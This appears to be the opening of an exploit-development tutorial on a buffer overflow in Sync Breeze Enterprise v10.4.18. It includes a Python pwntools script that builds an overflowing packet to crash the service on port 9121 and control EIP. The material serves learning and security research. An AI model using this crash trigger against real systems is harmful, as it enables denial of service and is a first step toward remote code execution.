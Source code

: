 # Sync Breeze Enterprise v10.4.18
## Outline
I'm going to start a series on exploiting a few older Windows applications to get a stronger understanding of how to create more sophisticated exploits using modern techniques. To start with I've chosen `Sync Breeze Enterprise v10.4.18` as OJ Reeves did an amazing stream a few years back covering how to exploit this which I highly recommend watching. (link here https://www.youtube.com/watch?v=jta5z4FZagM).

Instead of blindly copying his rop gadget I'm going to create a chain for VirtualAlloc, instead of VirtualProtect. At first I wanted to use a different dll but due to bad bytes that isnt easily doable. 

DISCLAIMER:
I'm going to make a lot of mistakes, instead of editing them out, I'm just going to document them and correct them later on. This should be treated more as how I approach writing an exploit rather then a precise methodology of how to craft an exploit.
With this in mind I will try to explain my reasoning for why I am doing each step. To try to this post from being way to long I'm going to get less verbose as I go along, as most of this will be following similar steps to before.


## Check Page Permissions

Code to trigger the crash

```
#!/usr/bin/env python3

import pwn

max_buf = 0x400

body = pwn.util.cyclic.cyclic_metasploit(max_buf)

deref_off = pwn.util.cyclic.cyclic_metasploit_find(0x63413187 - 0x24)
eip_off = pwn.util.cyclic.cyclic_metasploit_find(0x33654132)


body = b'A' * deref_off
body += b'B'* 4
body += b'C' * (eip_off - len(body))
body += b'D' * 4
body += b'E' * (max_buf - len(body))

header = b"\x75\x19\xba\xab"
header += pwn.p32(3)
header += pwn.p32(1)
header += pwn.p32(len(body))*2

header += pwn.p32(body[-1])

packet = header+body


s = pwn.remote('192.168.1.254', 9121)

s.send(packet)

response = s.recv(1024)

s.interactive()
```
